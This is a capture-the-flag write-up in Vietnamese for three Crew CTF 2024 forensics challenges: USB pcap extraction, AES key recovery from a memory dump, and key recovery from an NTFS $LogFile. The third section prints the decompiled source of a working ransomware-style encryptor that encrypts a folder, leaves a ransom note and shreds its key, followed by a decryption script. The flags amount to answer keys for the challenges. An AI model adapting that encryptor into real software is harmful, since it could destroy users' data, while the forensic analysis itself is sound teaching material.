







# Crew CTF 2024.
### I. Recursion.
```
Question: I caught my co-worker moving some weird files on a USB, can you tell me whats going on?
```
- chall này cho ta 1 file `.pcap`mở file và check thì bên trong có dữ liệu của USB bulk là 1 dạng flash drive, không có `HID` data nhưng mà ta lại có `leftover` data.

- Ta có thể đễ dạng thấy 1 file `layer4.pcap` bằng cách sử dụng `binwalk` extract file trong file giống y hệt bài `russia doll`.
```
$ pwd
/mnt/d/FORENSICS/challenge/CrewCTF/Recursion/_usb.pcapng.extracted/_layer4.pcapng.extracted/_layer3.pcapng.extracted/_layer2.extracted/_layer1
```

```
$ strings layer1.pcapng | grep crew
crew{l00ks_l1ke_y0u_mad3_1t!}
```

*`FLAG: crew{l00ks_l1ke_y0u_mad3_1t!}`*

### II. Crymem.
```
Question: I obtained a memory dump including encrypted flag. How to decrypt it? Maybe, the source code leads us insights…
```
- Chall này cho ta 1 file memory và 1 source c++ mã hóa flag bằng `AES`, chall này ta ko thể sử dụng `vol3` vì 1 lý do nào đó.
- Ta sẽ sử dụng string với `option -E` để tìm kiếm các giá trị đó xem có hong nha.
```
$ strings memdump.raw | grep -E "ENCFLAG|IVVALUE|key.txt|plaintext.txt"
key.txt
plaintext.txt
tmp/key.txt
cannot read key.txt
tmp/plaintext.txt
cannot read plaintext.txt
IVVALUE:
ENCFLAG:
key.txt
plaintext.txt
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
IVVALUE:0ac516e1bc21a36e68932e05ff8aa480
ENCFLAG:caed872aab2b3427778413df7ffa0cb769db2ef567ddc815a3e43a2a0b69b0899a504b198720197c93b897f45313d469
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
tmp/key.txt
cannot read key.txt
tmp/plaintext.txt
cannot read plaintext.txt
IVVALUE:
ENCFLAG:
IVVALUE:0ac516e1bc21a36e68932e05ff8aa480
ENCFLAG:caed872aab2b3427778413df7ffa0cb769db2ef567ddc815a3e43a2a0b69b0899a504b198720197c93b897f45313d469
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
MESSAGE=     ctf : TTY=tty1 ; PWD=/home/ctf ; USER=root ; COMMAND=/usr/bin/chown ctf:ctf aes_sample.c aes_sample.out history20240216.txt key.txt plaintext.txt
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
MESSAGE=     ctf : TTY=tty1 ; PWD=/mnt/hgfs/shared_debian12_ctf_test_1 ; USER=root ; COMMAND=/usr/bin/chown ctf:ctf aes_sample.c aes_sample.out history20240216.txt key.txt plaintext.txt
_CMDLINE=sudo chown ctf:ctf aes_sample.c aes_sample.out history20240216.txt key.txt plaintext.txt
MESSAGE=     ctf : TTY=tty1 ; PWD=/home/ctf ; USER=root ; COMMAND=/usr/bin/chown ctf:ctf aes_sample.c history20240216.txt key.txt plaintext.txt
_CMDLINE=sudo chown ctf:ctf aes_sample.c history20240216.txt key.txt plaintext.txt
```
- Ta chỉ có thể có được `ENCFLAG` và `IVVALUE` thôi với `AES` ta cần phải có cả `KEY` nữa ta có thể thấy có `key.txt` nhưng do ko thể sử dụng `vol` nên ta đành phải sử dụng cách khác.
- Ta có thể sử dụng `bulk_extractor` để lấy key vì đây là 1 tool được tạo ra để tìm kiếm các data ẩn bên hoặc các file có định dạng mặc định hoặc đã bị mã hóa.
```
└─$ bulk_extractor -o output/ memdump.raw

└─$ cat aes_keys.txt 
# BANNER FILE NOT PROVIDED (-b option)
# BULK_EXTRACTOR-Version: 2.1.1
# Feature-Recorder: aes_keys
# Filename: memdump.raw
# Feature-File-Version: 1.1
266205440       11 f9 f5 aa fa d8 e5 7c 0d 14 b2 e1 b5 2d 83 d6 AES128
```
- Sử dụng `Cyber Chef` ta có lun flag.


*`FLAG: crew{M3m0ry_f0r3N_is_mysterious_@_crypt0_Challs}`*

### III. Fiilllleeeeeeeev.
- Chall này cho ta 1 file `.ad1` và cho ta sẵn flag đã bị encrypt ta cần phải biết key cũng như là loại mã hóa mới có thể có flag, mở file bằng `FTK imager` ta thấy có 1 con `sdelete64.exe` dường như là một tiện ích của Microsoft giúp xóa các tệp khỏi hệ thống một cách an toàn. Đọc về SDelete, có vẻ như nó thực sự ghi đè tên tệp của từng tệp đã xóa bằng cách đổi tên tệp 26 lần, mỗi lần thay thế từng ký tự trong tên tệp bằng một ký tự chữ cái liên tiếp và cũng có vẻ file `ZZZZZZZZ` này là file đã bị xóa.

- Ta cũng có 1 file exe khác là `fiilllleeeeeeee.exe` export về nhìn logo thì chắc chắn nó được compile bằng python rồi.

- Sử dụng `Pyinstxtractor` để lấy file `.pyc` và sử dụng [Pylingual](https://pylingual.io) để decompile ta sẽ được source sau:
```
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: fiilllleeeeeeee.py
# Bytecode version: 3.12.0rc2 (3531)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import subprocess
from cryptography.hazmat.primitives.asymmetric.x25519 import X25519PrivateKey, X25519PublicKey
from cryptography.hazmat.primitives.ciphers import algorithms, Cipher, modes
from hashlib import sha256
from pathlib import Path
import os
import shelve
import sys
PUBLIC_KEY = X25519PublicKey.from_public_bytes(bytes.fromhex('18099b8ba29b20553ee1fb36280fce8fcd616d036c70d24fe7918bc199baa879'))
if getattr(sys, 'frozen', False):
    WORKING_DIRECTORY = Path(sys.executable).parent
else:
    WORKING_DIRECTORY = Path(__file__).parent
SHARED_KEY_FILE = WORKING_DIRECTORY / 'shared_key'
MESSAGE_FILE = WORKING_DIRECTORY / 'message.txt'
SDELETE_FILE = WORKING_DIRECTORY / 'sdelete64.exe'
ENCRYPT_DIRECTORY = Path.home() / 'Documents' / 'is_you_happen_to_have_a_directory_named_this_and_they_get_encrypted_then_its_on_you'
MAGIC = b'ENCRYPTED\x00\x00\x00\xde\xad\xbe\xef'

def main():
    if SHARED_KEY_FILE.exists():
        shared_key = SHARED_KEY_FILE.read_bytes()
    else:
        private_key = X25519PrivateKey.generate()
        public_key = private_key.public_key().public_bytes_raw()
        shared_key = sha256(private_key.exchange(PUBLIC_KEY)).digest()
        MESSAGE_FILE.write_text(f'\n        Whoops! Looks your files are encrypted.\n        Email fake@example.com quoting the following unique ID to decrypt your files:\n        {public_key.hex()}\n        ')
        SHARED_KEY_FILE.write_bytes(shared_key)
    if ENCRYPT_DIRECTORY.exists() and ENCRYPT_DIRECTORY.is_dir():
        for file in ENCRYPT_DIRECTORY.iterdir():
            if not file.is_file():
                continue
            contents = file.read_bytes()
            if contents.startswith(MAGIC):
                continue
            nonce = os.urandom(algorithms.AES256.block_size // 8)
            cipher = Cipher(algorithms.AES256(shared_key), modes.CTR(nonce))
            encryptor = cipher.encryptor()
            file.write_bytes(MAGIC + nonce + encryptor.update(contents) + encryptor.finalize())
    SHARED_KEY_FILE.write_bytes(b'A' * SHARED_KEY_FILE.stat().st_size)
    subprocess.call([str(SDELETE_FILE.resolve()), '/accepteula', str(SHARED_KEY_FILE.resolve())])
    subprocess.call(['notepad.exe', MESSAGE_FILE.resolve()])
if __name__ == '__main__':
    main()
```
- Đọc sơ sơ thì có thể thấy nó mã các file từ folder `is_you_happen_to_have_a_directory_named_this_and_they_get_encrypted_then_its_on_you` và xóa các file bị mã hóa đó bằng `SDelete`, file flag sẽ có header là `ENCRYPTED\x00\x00\x00\xde\xad\xbe\xef` phần còn lại sẽ là flag.
- Ta cần phải có key thì mới decrypt được, Ta có thể extract được key dựa vào `$LogFile` bởi vì nó lưu trữ mọi sự kiện hệ thống tệp trong hệ. Thông tin thêm về `$LogFile` [ở đây](https://forensafe.com/blogs/windowslogfile.html).
- Ta sẽ sử dụng [$LogFileParser](https://github.com/jschicht/LogFileParser) để phân tích `$LogFile` và xem các hoạt động trong hệ thống, tải `$LogFile` từ file `.ad1` .

- Mở file `ntfs.db` bằng `SQLite` filter `shared_key` ta có thể tìm thấy file `shared_key` đang được thêm dưới dạng index có offset là `43` vào `MFT` và được thay đổi bằng 1 giá trị khác trước khi bị `SDelete` ghi đè.

- Mở file `Debug.log` tìm kiếm ở offset 43 ta sẽ có được key.

- Sử dụng source này là có flag òi.
```
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
import binascii
import os

MAGIC = b'ENCRYPTED\x00\x00\x00\xde\xad\xbe\xef'
SHARED_KEY_HEX = '00e0e41eef5fa2449180acdee971e220a33f2ce630a411ad3ae8668ce6261474'
ENCRYPTED_FILE = './flag.txt'

shared_key = binascii.unhexlify(SHARED_KEY_HEX)

def decrypt_file(file_path, shared_key):
    with open(file_path, 'rb') as f:
        contents = f.read()

    if not contents.startswith(MAGIC):
        print(f"{file_path} does not contain the expected MAGIC header.")
        return

    # Extract nonce and encrypted content
    nonce = contents[len(MAGIC):len(MAGIC) + algorithms.AES256.block_size // 8]
    encrypted_content = contents[len(MAGIC) + len(nonce):]

    # Initialize AES-256-CTR decryption
    cipher = Cipher(algorithms.AES256(shared_key), modes.CTR(nonce))
    decryptor = cipher.decryptor()
    decrypted_content = decryptor.update(encrypted_content) + decryptor.finalize()

    print("Flag: " + decrypted_content.decode('utf-8'))

decrypt_file(ENCRYPTED_FILE, shared_key)
```

```
└─$ python decrypt.py
Flag: crew{d0_y0u_637_7h3_ch4ll3n63_n4m3?_f4a73851}
```

*`FLAG: crew{d0_y0u_637_7h3_ch4ll3n63_n4m3?_f4a73851}`*